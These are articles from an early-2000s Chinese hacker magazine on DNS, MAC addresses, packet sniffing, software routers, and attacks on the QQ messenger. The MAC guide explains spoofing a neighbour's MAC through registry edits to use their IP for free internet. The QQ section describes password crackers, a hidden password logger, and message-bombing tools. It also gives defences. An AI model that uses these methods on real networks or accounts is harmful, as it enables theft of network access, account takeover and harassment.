虽然符号名对于人来说是极为方便，但是在计算机上实现却不那么容易。为了解决这个需求，应运而生了一个域名服务系统——DNS，它运行在 TCP/IP 协议之上，负责将字符串——域名转换成实际对应的 IP 地址。它可将数字形式的 IP 地址（例如 202.108.37.40）转换成易于书写形式的地址（例如 www.sina.com.cn），反之亦然，以便人们可以直观地使用。这个过程就是域名解析，负责域名解析的机器就叫域名服务器。

域名系统的工作过程，首先是设置你的电脑查询对象。一般你的电脑需要借助于 Internet 上的某台域名服务器帮助进行域名查询，所以你首先需要设置你的电脑，在需要进行域名查询时，向哪个服务器发出询问。Internet 上有许许多多域名服务器，你可以选择任一台作为你首选的域名服务器（“根”服务器除外），也就是说，你要告诉你的电脑，当需要进行域名查询时，首先去问哪一台域名服务器。域名服务器接收到你的电脑的查询请求，它会帮助你进行查询，然后将结果返回你的电脑。为了获得最快的响应，一般选择与你的电脑有最好的连接的服务器。

在 Windows 98 中，如果你是通过 Modem 上网，选择：“控制面板”→“网络”→“TCP/IP→您的网卡”→“属性”→“DNS 设置”，可打开如图所示窗口。这里的“主控 DNS”就是上述首选的域名服务器，如果你选用的是本地 DNS 服务器，比如 61.128.128.68（重庆地区主 DNS 服务器），那么你的速度会得到很大的提升；你还可以设置“辅助 DNS”服务器，它可以在你的“主控 DNS”服务器当机（Down）或响应过慢时起作用，在局域网中则建议设置为代理服务器 IP，即 192.168.0.1。其它 DNS 服务器可以根据实际情况选择速度不错的来设置。


以下结合实例讲述 DNS 正确设置后域名的查询过程。当你打开浏览器，访问某个站点时，例如中国万网网站 www.hichina.com；你的电脑需要知道这个站点的 IP 地址是多少。于是它会自动向你的“主控 DNS”服务器发出询问，即“请问 www.hichina.com 的 IP 是多少？”。如果这台域名服务器对 hichina.com 这个域名不是“权威性”的，起初它上面并没有关于 hichina.com 的记录，于是它向根服务器发出一个查询：“hichina.com 由什么服务器提供域名解析服务？”根服务器的回答将是：“哦，去问 dns1.hichina.com 或者 dns2.hichina.com 吧。它们的 IP 地址是 203.196.4.70 及 203.196.4.10。”你的主控 DNS 服务器继而会询问 dns1.hichina.com 这台域名服务器，这次还是那个问题，即“www.hichina.com 的 IP 是多少？”，dns1.hichina.com 将给出“权威性”的回答。你的主控 DNS 服务器收到这个回答，一方面将该信息告诉你的电脑，另一方面它会把该信息保存在自己的缓冲区内，如果它再次接到相同的查询，它就直接将刚才缓冲了的记录回答给下一个询问者。但是这个缓存的记录有一个失效期，当失效期到达后，你的主控 DNS 服务器将会自动去掉缓存的记录；当再有电脑发出同样的查询请求时，将重复前面叙述的完整过程。

好了，说了这么多，快去试试吧，感受一下设置后的速度！

## MAC地址全攻略

如果你是通过校园网或小区接入 Internet，那么一定听说过 MAC 地址。什么是 MAC 地址，MAC 地址在这种局域网环境中究竟起到什么作用？下面就来介绍一下 MAC 地址的知识，MAC 地址和 IP 地址的区别以及 MAC 地址在实际应用中所涉及到的安全问题。

## 一、基础知识

如今的网络是分层来实现的，就像是搭积木一样，先设计某个特定功能的模块，然后把模块拼起来组成整个网络。局域网也不例外，一般来说，在组网上我们使用的是 IEEE 802 参考模型，从下至上分为：物理层、媒体接入控制层（MAC）、逻辑链路控制层（LLC）。

## 二、什么是 MAC 地址

MAC 地址就是在媒体接入层上使用的地址。在我们看来就是网卡的物理地址，由厂商写在网卡的 BIOS 里。MAC 地址可采用 6 字节（48 比特）或 2 字节（16 比特）这两种中的任意一种。但随着局域网规模越来越大，一般都采用 6 字节的 MAC 地址。这个 48 比特都有其规定的意义，前 24 位是由生产网卡的厂商向 IEEE 申请的厂商地址，目前的价格是 1000 美元买一个地址块；后 24 位由厂商自行分配，这样的分配使得世界上任意一个拥有 48 位 MAC 地址的网卡都有唯一的标识。另外，2 字节的 MAC 地址不用网卡厂商申请。

## 三、IP 地址与 MAC 地址的区别

IP 地址基于逻辑，比较灵活，不受硬件限制，也容易记忆。MAC 地址在一定程度上与硬件一致，基于物理，能够标识具体硬件。这两种地址各有好处，使用时也因条件而采取不同的地址。

## 四、校园网和小区中为什么要用到 MAC 地址

这是由组网方式决定的。如今比较流行的接入 Internet 的方式（也是未来发展的方向）是把主机通过局域网组织在一起，然后再通过交换机和 Internet 相连接。这样一来就出现了如何区分具体用户、防止盗用的问题。由于 IP 只是逻辑上的标识，任何人都可以随意修改，因此不能用来标识用户，而 MAC 地址则不然，它是固化在网卡里面的，从理论上讲，除非拿硬件（网卡），否则是没有办法冒名顶替的（注意：其实也可以盗用，后面将介绍）。基于 MAC 地址的这种特点，局域网采用了用 MAC 地址来标识具体用户的方法。

> **注意** 具体实现：在交换机内部通过“表”的方式把 MAC 地址和 IP 地址一一对应，也就是所谓的“IP-MAC 绑定”。具体的通信方式、接线过程，当有发给本地局域网内一台主机的数据包时，交换机接收下来，然后把数据包中的 IP 地址按照“表”中的对应关系映射成 MAC 地址，转发到对应的 MAC 地址的主机上；这样一来，即使某些主机盗用了某个 IP 地址，但由于它不是这个 MAC 地址，因此也不能找到线路，发送过程将被迫中止。

## 五、怎样获得自己的 MAC 地址

MAC 地址固化在网卡中的 BIOS 中，可以通过 DOS 命令取得。Win9X：winipcfg，Win2000/XP：ipconfig /all；其中用 16 进制表示的 12 位数字就是。

## 六、MAC 地址涉及到的安全问题

从上面的介绍可以知道，这种标识方式只是基于 MAC 地址的，我们如果能够更改 MAC 地址，不就可以盗用 IP，免费上网了吗？

## 七、如何获得别人的 MAC 地址

如果想盗用的话，除了 IP 地址还要知道对应的 MAC 地址。

> **小知识** ARP 协议：ARP 协议是通过 IP 地址来获得 MAC 地址的。ARP 表，为了加快通信的速度，系统常用的 MAC 与 IP 的转换关系并不临时去搜索来进行，而是在本机上建立一个用来记录常用主机 IP-MAC 映射表，即 ARP 表。

获得局域网内某台主机的 MAC 地址，比如想得到局域网内名为 TARGET 主机的 MAC 地址，可以用 PING 命令 `PING TARGET`，这样在我们主机上面的 ARP 表缓存中就会留下 TARGET 的 IP 和 MAC 映射记录，然后通过 `ARP -A` 命令来查询 ARP 表。如图所示：


这样我们就得到了局域网内指定主机的 MAC 地址。如果要得到其它网段的 MAC 地址，那么可以用工具软件来实现，目前我觉得好用的是 Windows 优化大师 V4.9 中自带的工具，可以成批地扫出 MAC 地址并可以保存到文件。

## 八、如何修改自己的 MAC 地址

MAC 地址是固化在网卡中的，难道就没有办法更改了吗？不然，因为网卡的工作是和操作系统联系起来的，所以目前仍然可以通过更改操作系统配置文件来更改 MAC 地址，例如在 Windows 中可以通过注册表来修改。

```text
WINME 中：Local_machine\system\currentcontrolset\service\class\net 下的 0000、0001、0002...

WIN2000/XP 中：HLM\SYSTEM\CurrentControlSet\Control\Class\{4d36e972-e325-11ce-bfc1-08002be10318} 子键，在该子键的 0000、0001、0002 中找到 DriverDesc，比较现在网卡所在项，在对应项下“高级”属性中找到“NetworkAddress”，键值改为你要设的 MAC 地址，要求为连续的 12 个 16 进制数。
```

也可以用工具软件修改，如：MAC2001。

## 九、如何解决绑定 MAC 地址带来的安全问题

可以看出，只是简单地绑定 IP 和 MAC 地址是不能完全解决 IP 盗用问题的。作为一个网络供应商，他们有责任为用户解决好这些问题之后，才交给用户使用，而不是把安全问题交给用户来解决，不应该让用户来承担一些不必要的盗用损失。

作为网络供应商，最常用，也最有效的解决办法就是在 IP、MAC 绑定的基础上，再把端口绑定进去，即 IP-MAC-PORT 的三者绑定，端口（PORT）指的是交换机的端口。这就需要在布线时做好端口管理工作。在布线时应该把用户端上的接线盒和交换机的端口一一对应，并做好登记工作，然后把用户交上来的 MAC 地址与对应的交换机端口，进而再和 IP 一起绑定，达到 IP-MAC-PORT 的三者绑定。这样一来，即使盗用者拥有这个 IP 对应的 MAC 地址，但是它不可能同样拥有插上的端口，因此，从物理通道上隔离了盗用者。

我想通过上面的介绍大家对 MAC 地址也有些了解了吧！不过大家应该学以“自”用，千万不要用来整别人啊！

## 用 Sniffer 了解 TCP/IP 的结构格式

coolfax


TCP/IP 协议是互联网中的最核心的协议，也是 Internet 最基本的协议，它是 Internet 的灵魂。对于黑客来说，TCP/IP 是最基础的知识，基本上所有的网络服务都是基于 TCP 协议的，如 HTTP、FTP、SMTP 等等，对于学习分析在网络工作的应用软件和了解网络编程有很重要的意义，同时熟悉 Sniffer 的功能。因此我们要好好地掌握它。

TCP 协议是面向连接的服务协议，在传输数据时，必须先请求一个目的连接，然后使用这个连接来传输数据。端口用来实现应用程序之间的 TCP 协议连接。

此外，TCP 连接是采用可靠的点对点、全双工的通信方式。TCP 数据报头部结构，如图 2 所示。

如何了解、分析 TCP/IP 协议的结构？具体的实现方法如下：用 Sniffer 软件对一些数据进行嗅探，从中找到关于 TCP/IP 数据部分，对其分析，熟悉 TCP/IP 协议的结构格式。先来初步了解一下 TCP/IP 协议吧！

## 一、TCP/IP 协议的概念

- 1. 先说 IP（Internet Protocol）互联网协议，它是工作在网络的最底层的协议，TCP、UDP 等协议都是建立在它之上的。倘若离开了 IP 协议，TCP、UDP 等协议就无法工作了。TCP/IP 协议使用的 IP 数据报由一个头部和紧跟其后的数据正文组成。其中 IP 的头部结构有着严格的规定。IP 数据报头部结构由一个 20 字节的固定长度和一个可变任意长度的部分组成，如图 1 所示。

> 注：

- ACK：ACK 字段表示确认合法性。当 ACK=1 时，数据报合法；反之则不合法。
- PSH：该字段表示带有 PSH 标志的数据。
- RST：用于主机崩溃或者拒绝网络连接，还可以用来拒绝非法请求。
- SYN：用于建立连接，在连接请求中 SYN=1。

与此同时，TCP 为确保连接的建立和终止的可靠性，TCP 采用了三次握手（3-way handshake）的方式。三次握手的目的是使数据报的发送和接收同步，建立一个虚连接。三个过程如下：

- 1. 初始化主机通过一个同步标志位的数据段发出请求。
- 2. 接收主机通过发回具有以下项目的数据表示回复：同步标志位、即将发送的数据段的起始字节的序号、应答和将收下一个字节的序号。
- 3. 请求主机再回送一个数据段，并带有序号和确认号。

| 版本 | IHL | 服务类型 | 总长 |
|---|---|---|---|
| 标识 |  | 标志 | 分段偏移 |
| 生存期 | 协议 | 头部校验和 |  |
| 源地址 |  |  |  |
| 目的地址 |  |  |  |
| 选项 |  |  |  |

图1·IP 数据报头部结构

| 源端口 |  | 目的端口 |  |
|---|---|---|---|
| 序号 |  |  |  |
| 确认号 |  |  |  |
| 头长 | URG | ACK | PSH |
| RST | SYN | FIN | 窗口大小 |
| 校验和 |  | 紧急指针 |  |
| 可选项 | 数据 |  |  |

图2 TCP 数据报头部结构

- 2. TCP（Transmission Control Protocol）传输控制协议，TCP 协议是面向连接的服务协议。

这样对 TCP/IP 协议比较抽象，也比较枯燥，那让我们使它形象化、具体化。实现工具专门用来分析网络的嗅探器 Iris v3.1 网络流量分析监测工具（可以帮助系统管理员轻易地捕获和察看用户的使用情况；可以同时检测到进入和发出的信息流，会自动进行存储和统计，以便于查看和管理）。


图3 Sniffer 截取到的 IP 数据报

现在开始分析，启动 Iris v3.1，进入主界面，设置网卡和嗅探参数，在此之前你要知道自己的 IP（这个对大家来说很简单，自己解决了）。先剖析基础的 IP 数据报头部结构，我们在浏览器里输入：http://www.163.com，这时 Iris 已经嗅探到了我们发送的数据，停止嗅探。看我们在 Iris 得到关于 http://www.163.com 的 IP 数据报，如图 3 所示，右下窗口中的阴影部分为 IP 连接请求的数据报的分析，写成 `45 00 00 28 2C F7 40 00 35 06 63 5A CA 6C 2A 45 C0 A8 00 25`。

图3中第一字段 4 表示 IP 协议的版本为 4，即 IPv4；第二字段 5 表示 IP 数据报的头部长为 5，即最小长度为 20 字节；

第三字段 00 代表该数据报服务质量为低质量、正常延时；第四字段 00 28 数据报的长度为十六进制，可换算出 IP 数据报的长度为 0×16×16+0×16+2×16+8=40 字节；

第五字段 2C F7 表示数据报的标识 = 11511（十六进制转换成十进制）；

第六字段 40 表示数据报可以被分解成更小的数据报；第七字段 00 代表数据报没有被分解；

第八字段 35 代表这个数据报的生命期为 35 秒。（生命期以防止数据报在网络中无休止地运行，从而造成 Internet 的堵塞。通常情况下，最长的生命期是 255 秒。）

第九字段 06 换成十进制 6，代表后面的数据采用 TCP 协议，发送至 TCP 的进程；

第十字段 63 5A 代表这个 IP 数据报头校验和为 0x635A（换算过程：将头部 16 位半字数据累加起来，求补运算，再取结果的补码）；

第十一字段 CA 6C 2A 45 为数据目的地址 202.108.42.69（也就是 http://www.163.com）；

第十二字段 C0 A8 00 25 为数据源地址 192.168.0.37（我的机器在局域网中的地址，注意不是上网的 IP 地址），通过使用 Sniffer 对数据报的分析，有助于我们对 IP 协议的了解。

下面用 Sniffer 分析 TCP 的数据报结构，揭示 TCP 的三次握手。从主界面 Filter/Edit Filter，选择嗅探的协议类型，这里我们要讨论的是 TCP，选择右边 TCP 协议。启动 Iris 的嗅探按钮（工具栏中的三角形），开始数据嗅探，再启动 DOS，在命令行下输入：`FTP 63.218.225.79`，出现如图 4 所示输入用户名时，FTP 的连接已经完成，停止嗅探，如图 5 所示。


从图5中的阴影部分可以看到 TCP 的五个通信过程，前三次是 TCP 的三次握手，第四次通信过程是源端服务器发送过来的数据信息，第五次是确认已接收到了数据。三次握手的过程可以从界面上清楚地看到。

下面我们分析在三次握手的过程中，TCP 的数据报结构的变化。如图6所示，阴影部分为 TCP 连接请求的数据报的头结构，我们写成：

```text
04 6A 00 15
00 13 1E 20
00 00 00 00
70 02 20 00
5E 76 00 00
02 04 05 B4
01 01 04 02
```

```text
0000 D0 D0 F8 0C A3 AA 52 54 AB 53 2F B6 08 00 45 00
0010 00 30 59 1D 00 00 20 06 5F B4 C0 A8 00 25 3F DA
0020 E1 4F 04 6A 00 15 00 13 1E 20 00 00 00 00 70 02
0030 20 00 5E 76 00 00 02 04 05 B4 01 01 04 02
```


- 第一字段 04 6A，表示源端口为 1130（换算过程 0×16×16×16+4×16×16+6×16+10=1130）；
- 第二字段 00 15 表示目的端口为 21（十六进制转换成十进制）；
- 第三字段 00 13 1E 20 表示序号 1252896；
- 第四字段 00 00 00 00 表示确认号 0；
- 第五字段 70 表示 TCP 的长度为 28 字节；
- 第六字段 02 表示 SYN=1，其它为 0；
- 第七字段 20 00 表示窗口大小为 8192；
- 第八字段 5E 76 为头部校验和；
- 第九字段 00 00 表示紧急指针为 0；
- 第十字段 02 04 05 B4 01 01 04 02 表示最大报文段长度等选项信息。

这是发送的第一个连接请求，当目的服务器接收到数据后，返回了如图7所示的数据。

```text
0000 52 54 AB 53 2F B6 00 D0 F8 0C A3 AA 08 00 45 00
0010 00 30 00 00 40 00 2D 06 6B D1 3F DA E1 4F C0 A8
0020 00 25 00 15 04 6A 00 13 1E 21 00 13 1E 21 70 12
0030 16 20 90 FD 00 00 02 04 05 B4 01 01 04 02
```


和上述一样的方法分析，注意数据中的 12 表示 ACK=1，SYN=1，其它为 0，表明连接合法并建立连接请求。本地的主机在接收到数据后，做出如图8的响应。

```text
0000 D0 D0 F8 0C A3 AA 52 54 AB 53 2F B6 08 00 45 00
0010 00 28 54 1D 00 00 20 06 5E BC C0 A8 00 25 3F DA
0020 E1 4F 04 6A 00 15 00 13 1E 21 00 13 1E 21 50 10
0030 20 00 B4 2D 00 00
```


分析此字段 10，表示 ACK=1，其它为 0，确认连接成功。之后服务器开始传送提示信息，如图9所示。

```text
0000 52 54 AB 53 2F B6 00 D0 F8 0C A3 AA 08 00 45 00
0010 00 63 C2 36 40 00 2D 06 AB E7 3F DA E1 4F C0 A8
0020 00 25 00 15 04 6A 90 FA AC B0 02 00 13 1E 21 50 18
0030 16 D0 B4 A0 00 00 32 30 20 50 72 6F 46 54 50
0040 44 20 31 2E 32 2E 34 20 53 65 72 76 65 72 20 28
0050 66 74 70 2E 31 38 36 6A 61 63 6B 2E 63 6F 6D 29 20
0060 53 36 33 2E 32 31 38 2E 32 32 35 2E 37 39 0D
0070 0A
```


阴影部分为 TCP 的数据报头结构，后面是传输的数据部分。我们也可以把数据部分的十六进制转换成 ASCII 码字符，可以发现和我们的 FTP 命令提示的信息一致（在数据段的右边可以看到）：OK！TCP/IP 协议的数据报结构分析完了。

## IP 端口


如图10，嗅探 QQ 的 UDP 协议。

协议有了进一步的了解了吧！

你也可以用 Sniffer 了解其它的协议，如 UDP、ICMP、IGMP 和 Telnet 等命令。

如图10所示，是嗅探 QQ 的 UDP 协议的报头结构，这里就不再详细说明了，请读者自己练习，这将对你以后的网络编程有理论的指导作用。

## 软件路由双娇艳

井中月

路由器（Router）的话题早已出现，但只在计算机界到了八十年代中期才获得商业成功，这一时间延迟的主要原因是七十年代的网络很简单。直到近十年来，随着计算机网络规模的不断扩大，大型互联网络（如 Internet）的迅猛发展，路由技术在网络技术中才逐渐成为关键部分，路由器也随之成为最重要的网络设备。任何一个有一定规模的计算机网络（如企业网、校园网、智能大厦等），无论采用的是快速以太网技术、FDDI 技术，还是 ATM 技术，都离不开路由器，否则就无法正常运作和管理。

说了这么多，疑惑的你一定会问，路由器究竟是什么呢？其实，路由器就是充当着互联网的枢纽和“安全警察”的一种网络设备。它具有以下三个特点：

- 1. 它是工作在 OSI 第三层（网络层）上的；
- 2. 它具有连接不同类型网络的能力；
- 3. 它选择数据传送路径的能力。

那么，路由器是怎样实现其功能的呢？这又要从其原理说起了。路由器有多个端口，用于连接多个子网。每个端口的 IP 地址的网络号与所连接的子网的网络号相同，不同的端口为不同的网络号，故才称不同的子网。当子网中的一台主机发送 IP 分组给同一子网的另一台主机时，它将直接把 IP 分组送到网络上，对方就能收到。而要送给不同子网上的主机时，它要选择一个能到达目的子网上的路由器，把 IP 分组送给该路由器，再由路由器负责把 IP 分组送到目的地。如果没有找到这样的路由器，主机就把 IP 分组送给一个称为“缺省网关（default gateway）”的路由器上。

> **“缺省网关”** 是每台主机上的一个配置参数，它是接在同一个网络上的某个路由器端口的 IP 地址。

路由器转发 IP 分组时，只根据 IP 分组目的 IP 地址的网络号部分选择合适的端口把 IP 分组送出去。同主机一样，路由器也要判定端口所接的是不是目的子网，如果是，就直接把分组通过端口送到网络上，否则，也要选择下一个路由器来传送分组。

路由器也有它的缺省网关，用来传送不知道该往哪里送的 IP 分组。这样，通过路由器把不知道的 IP 分组正确转发出去，不知道的 IP 分组送给“缺省网关”路由器，这样一级级地传送，IP 分组最终将送到目的地，送不到目的地的 IP 分组则被网络丢弃了。当然，在这一过程中，还涉及到不同的路由协议和路由算法。为了判定最佳路径，路由选择算法必须启动并维护包含路由信息的路由表。综上所述就是路由器的原理了。朋友，你记住了吗？

然而即使是一款家用级的硬件路由器也要上千元的身价，而那些生产企业应用的硬件路由器更是售价不菲，5000 乃至上万元的售价令很多人望而却步。难道我们就没有一种价廉物美的解决方案吗？当然不是！软件路由就将为我们解除燃眉之急。

软件路由是在一台连接多个网络的计算机上运行路由软件，以实现网络间路由的一种方法。利用软件路由方式，无需购置价格昂贵的专用路由设备，只需利用普通微机，便可实现路由功能，同时充当软件路由器的微机还可用于其它服务之用（如代理、WWW、EMAIL 等）。接下来，介绍几款时下比较流行的路由软件。

## 一、BBIagent

这是一个免费的宽带网络路由器软件。通过 BBIagent，我们可以将一台普通的个人电脑作为路由器使用，让某一局域网中的其它电脑共享一条宽带线路访问 Internet。它支持 PPPoE、PPTP、PPPoATM、PPP、DHCP 和固定 IP 地址联网方式，还内建了 DNS 和 DHCP 服务功能，避免局域网中的电脑在上网时繁琐的设置，如图1所示。同时，它与生俱来的防火墙功能可以有效防止黑客入侵局域网中的电脑。


图1

BBIagent 的主要功能如下：

- 1. 网络地址转换（NAT），隐藏网内其它电脑的 IP 地址，通过网外一个有效的 IP 地址，让网内的电脑能同时共享一条宽带线路上网。
- 2. 数据包状态检测技术检查数据包状态，只让有效的通过路由器。如果没有启动服务转接功能，网外的电脑不能直接访问网内电脑的各种服务。可设置各种安全防备，建立防火墙的功能，有效地防止来自网外及网内的攻击。
- 3. 虚拟服务可设置由路由器上的服务端口转接，将网外连接到路由器的请求转向到网内指定的主机端口，使网外其它电脑能访问网内的服务器，就像运行在路由器上一样。
- 4. 主机访问限制，可根据主机的 IP 地址、网段或网卡 MAC 地址，限制网内的主机在特定时间段访问网外其它电脑，或者使

## 黑客X档案2002—2003年合订本

用某些通讯协议和服务端口。

- 5、内建DHCP服务器，使网内电脑能从路由器自动获得网络参数配置（如：IP地址、网关和域名服务器地址），避免对电脑的繁复设置，同时可以将IP地址和网卡MAC地址绑定；内置DNS代理服务器为网内电脑快捷地提供反向代理，加快主机名对IP地址的查找，从而提高访问网页速度，并可自设主机名称和IP地址解析。

### 注意

为发挥作为BBIagent路由器的电脑必须安装两块网卡：一个用于连接局域网，另一个则与广域网相连。因此，检查网卡是其中一个比较重要的步骤。在下载BBIagent之前，请确认正在使用的网卡是否为BBIagent路由器软件所支持的类型。如果是ISA接口的网卡，可通过中断的配置模式关闭卡上的跳线，记下网卡的中断号和I/O地址。如果是PCI接口的网卡，BBIagent软件会进行自动侦测。

一般来说，BBIagent宽带网络路由器适用于需要共享宽带线路和建立防火墙的局域网，如：中小型企业、家庭办公室、学校和网吧等地方。

## 二、WinRoute Pro

WinRoute Pro是Tiny Software公司推出的一套集路由、超强NAT、防火墙、增强缓存的代理服务器、邮件服务器、DHCP和DNS服务器软件，其主界面如图2所示。

它是一个最终解决Internet路由器—防火墙的完整方案，可以轻松实现局域网内的所有电脑共享一个Internet连接（电话拨号连接、ADSL、ISDN、DDN专线，或是DirectPC）。


WinRoute Pro作为一个代理服务器，也作为一个操作简单的、很好用的路由软件，它的邮件管理服务器不但可以满足内部邮件交换，而且可以同时完成内部与外部邮件的交换；远程控制为网络管理员提供了强大的远程管理工具，在远端管理上网用户就像在本机管理一样，轻松自由；活动记录为用户提供详细的上网历史记录查询。时间段管理允许管理员为不同的用户设置不同的上网时间段，有效地控制上网时间，提高工作效率和节省资源。

WinRoute Pro适合于一个分支办公机构。

## 三、Routing and Remote Access Server（RRAS）

RRAS是Microsoft的产品（Windows NT/Windows 2000）自带的一个软件。它是一个用于网络路由的开放的服务系统，提供了LAN到LAN的路由和远程站点跨广域网连接。

我们在此讨论RRAS在Windows 2000 Advanced Server下的情况。在网络环境设置好后就可以安装Windows 2000 Advanced Server了，安装完成后从Administrative Tools中打开Routing and Remote Access，就可以看到具体的设置界面。以后的设置我们就不再累述了，只有一点要注意，那就是要增加几块系统支持的网卡。

Routing and Remote Access Server有以下特点：

- 1. 它可以用于IP和IPX的多协议路由。
- 2. 它是跨WAN连接的拨号路由，增加按需拨号接口。当数据或路由信息必须被送到远程站点时，按需拨号连接使到远程站点的连接初始化；当指定的时间内无数据传送时，将自动中止连接。为了连至一个按需拨号路由器，你必须先为路由器增加一个按需拨号接口后，而后必须在远程路由器上设置接口上的用于访问的授权，并在远程路由器上增加一个用户账户以便你能拨入访问。
- 3. 它支持工业标准的路由协议：OSPF、RIP、DHCP、SAP。
- 4. 它支持10M或100MB以太网、令牌环网、ATM、FDDI、ISDN、中继帧FR、X.25、MODEM等介质。
- 5. 它是基于SNMP的网络管理。
- 6. 它具有过滤的功能：IP包过滤由一系列过滤器组成，它告知路由器哪些交流被许可，哪些交流被禁止，入口路由表定义在一个接口上哪些入口的交通允许被路由或被路由器处理，出口路由表定义在一个接口上哪些出口的交通允许被发送出去；设置本地主机过滤表，本地主机过滤表使你的计算机仅接受以本机为目的地的通信；设置PPTP过滤表，你可在一接口上构造PPTP过滤表，使得仅有PPTP交通能使用该接口。
- 7. 它可用于路由协议的应用程序界面（API）。

例如，企业驻外机构可通过PPTP和Internet与企业本部连接，构成内联网。

RRAS一般用于中小型企业。

## 四、网络神牛（top-router）

这款路由软件是基于Linux的最新内核2.4.18，运用了最新的netfilter技术iptables。包括软盘和DOM两种存储设备。软盘版包括了有远程密钥管理，DOM版还集成有WEB管理接口，可轻松查看状态和配置系统。

它的最最神奇之处在于：抛开了Linux庞大的操作底层，所有的软件内核全部在一张小小的软盘里，直接在软驱启动进行程序的加载与运行。这样一来，对于Linux最致命的“意外断电导致系统崩溃”的危险性就降低为0了。

- 1. NAT地址转换，端口转发，过滤等功能。
- 2. 防火墙功能。
- 3. 双网口的简单路由。
- 4. 支持VPN隧道功能。
- 5. 充分利用淘汰硬件，价廉功能全，性能不亚于其他路由器。
- 6. 配置简单，可通过WEB管理。
- 7. 安全。网络神牛1.0版已可提供“拒绝所有ICMP请求”功能及“自行定义开关telnet”功能。并且由于代理服务器无硬盘，提供给局域网最大限度的安全功能。

嘿嘿，现在知道“网络神牛”的命名含义了吧：吃的是草，挤出来的是奶！

网络神牛（top-router）的应用范围一般需要两个10/100M以太网口做路由和地址转换的场合，例如网吧、企业、学校。

终于介绍完了时下比较流行的四款路由软件，再一次感到了路由软件的神奇！当然，有利也必有弊，路由软件也不是十全十美的，它不能用于大公司或大企业，安全方面在有的地方也不如硬件路由器。但是，我们还是要说，路由软件，我们永远支持你！

## 主题乐园

## 黑客X档案2002-2003年合订本


本期主题乐园由我来打理，不足之处请多多包涵，一定要多提宝贵意见，有什么好的想法，可以给我写信，欢迎大家的积极参与，让我们共同来分享我们的成就。

本期主题是我们针对人气极旺的聊天工具QQ（OICQ）推出的，QQ的广泛流行给我们带来了极大的方便与乐趣，已经渐成为上网一族不可或缺的通讯工具之一。当我们在尽情享受QQ带来的便利的同时，针对QQ的攻击与破坏也给我们带来了诸多的烦恼，如：利用QQ的漏洞对网友进行的炸弹攻击、窃取他人QQ密码、偷窥他人的信息等等。下面我们将围绕QQ的高级技巧、恶意破解攻击、安全与防范措施等方面进行详细的阐述。破解攻击是本主题的逆向教程，目的是希望读者能够详细了解QQ破解攻击的过程，让我们认识到QQ中的薄弱环节，目的嘛，当然是希望大家的QQ叫得更加欢畅。


随着QQ的普及和流行，针对QQ的攻击事件也日益增多起来。下面我们首先谈谈关于QQ的攻击。概括起来有以下3点：


- 1、窥探信息

如果你是在家或是办公室里一人使用一台电脑，则无甚大忧。但若是几人共用一台电脑或是在网吧上网，且你的聊天朋友和聊天记录属那种个人隐私级的话，你可要当心了。因为稍懂“复制”、“粘贴”的新手也能窃取你的信息。我们知道QQ登录对话框中有个“下次登录时不出现该提示框”的选项，若是你选了它，则别人可以兵不血刃，堂而皇之地登录到你的账号下，这样你的密码、好友名单、聊天记录就全部曝光了。当然不选就足了，但有人可以到以你QQ号为名的文件夹查看一个名叫friends.v30的文件，随便一个编程水平的程序都能看到你的好友名单，这样他就知道你正与哪位MM或GG聊天了。另外，更高级一点的就是利用一个叫做QQreader的软件，只要选好QQ的安装路径，则QQ安装目录下的所有QQ账号都在劫难逃，好友名单和聊天记录就都很方便地展示在入侵者的眼皮底下了。

- 2、窃取密码

虽然账号掉了可重新申请一个，但一个个地址再添加好友（很多时候因为忘记了网友的QQ号码，也许再也找不回来），同时聊天记录也会都人间蒸发。另外，你的QQ号码从靠前的5位数、6位数变成了8位或者9位数，也是很大的一个损失。很多人窃取密码就是冲着位数较少的号码来的，这在QQ中代表着一种资历。

一般我们的QQ号码是如何被破解的呢？破解可分为本地破解和远程破解。

本地破解即在本机上破解，无须登录上网，使用一种称为QQ密码终结者的程序QQPassover，它界面简单明了，一看便会。只需选择你要破解的QQ号码的目录路径，然后选择破解条件，是字母型、数字型或是混合型，再点击“开始”按钮就OK了；它的破解速度极快，一秒可达20000次，若以纯数字或是纯字母组合的密码少则几分钟多则几小时就原形毕露了。

另一种软件QQPasssniff则另辟蹊径，不以强攻为手段，而是四两拨千斤，任你用如何如何难破的密码，都可在你输入密码登录QQ的瞬间偷偷记录下来。而他所要做的就是在你上网之前运行该程序，然后在你下网离开后到C盘根目录下查看一个名叫log.txt的文件，你的密码早已乖乖地在那里等待着它的到来了。该程序运行时，按Ctrl+Alt+Del组合键是无法看到该进程的，该程序的原理类似于木马程序，不同的只是它不是远程实时控制而已。

关于远程破解，一般来说，都很少有成功的，有一个称之为QQhack的程序。它声称可在线破解一个或同时多个账号密码，速度极快。但是在实际操作过程中，却鲜有成功的。主要原因应该是QQ自身的加密机制随着版本号的提高而逐渐健全，还有防火墙更能轻易识别这些非法的数据请求，所以远程破解相对于本地破解，成功率自然低得多，因为它所涉及到的中间环节较多。

- 3、信息轰炸

简单地讲就是在极短的时间内发出大量的信息给某个QQ账号，使之应接不暇，系统速度变慢甚至下线或当机。比如“飘叶千夫指”，它能不断地向对方发送信息。另外还有一些聊天工具如聊天宝宝、聊天圣手、梦聊等。

要想炸人，首先得知道对方的IP地址和端口号，两者缺一不可。虽然有些软件声称只须知道对方号码便可轰炸，但一般不会成功。如何得知IP地址和端口呢？此类软件甚多，有QQsniffer、第三只眼的xQQ、成都小虫的QQsend、老外的netxray等。最为方便的是以QQ为外壳编写的QQ看IP工具，每次我们打开这类程序的时候，我们在QQ的广告栏里就可以方便地看到对方的IP地址和端口号。其次，实施轰炸，须正确填写IP地址和端口号方可成功。该类软件有QQbomb、QQnuke、QQspy、QQjoke等等众多软件。虽然QQ不断升级更新版本，但这些工具都是基于网络的TCP/IP协议，以正常途径探测和发送的，腾讯公司总不能更改Internet的基本协议吧。另外提一点，轰炸一个人最好将对方列为自己好友，再发送一个信息给他以探测其IP地址和端口，随后就可轻而易举地找着人了。但那个人需要验证通过才有可能拒绝，该怎么办呢？你可用QQbrick不经对方验证就可发送信息，而对方同时出现在你的陌生人名单里，这样你可用第三只眼的xQQ4.5版查看陌生人的IP和端口。

## QQ基础防范

### 1、防止信息泄漏

